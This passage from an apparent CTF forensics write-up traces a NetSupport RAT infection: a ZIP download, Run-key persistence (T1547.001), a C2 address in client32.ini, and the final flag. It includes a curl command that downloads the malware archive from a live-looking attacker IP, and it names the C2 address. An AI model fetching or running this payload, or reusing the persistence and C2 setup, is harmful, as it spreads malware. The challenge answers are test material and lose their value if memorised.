



It downloads a ZIP file, extracts the malware, and adds the main `client32.exe` to the user's Run key for persistence. Anything written under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` is launched automatically every time the user logs in.

This matches the technique `Boot or Logon Autostart Execution`, specifically the sub-technique `Registry Run Keys / Startup Folder`:



**Answer: `T1547.001`**

### 12. C&C server of the RAT? (Example: 9.9.9.9)

Let's grab the ZIP file — this time no porn-site UA needed:

```bash
curl -o client.zip 'http://138.2.62.171:443/downloads/AP-52163787-D405-4828-BBDD-09BB036BF5B3.zip'
```

Unzip it. Note that `client32.exe` is the file added to the Run key:



However, decompiling it in Ghidra shows no hard-coded IP. The C2 is actually stored in `client32.ini` instead — `client32.exe` is the legitimate **NetSupport Manager** remote-administration tool (signed, commercial), and `client32.ini` is its standard config where the `Gateway` address lives. When abused this way it's tracked as **NetSupport RAT**. Threat actors love it because the binary itself looks clean to AV; only the config makes it malicious:



**Answer: `161.33.2.236`**

All done, got the flag:



`Flag: KMACTF{https://youtu.be/r9jL-lbE558_D5929CCFDEB6C5FF}`
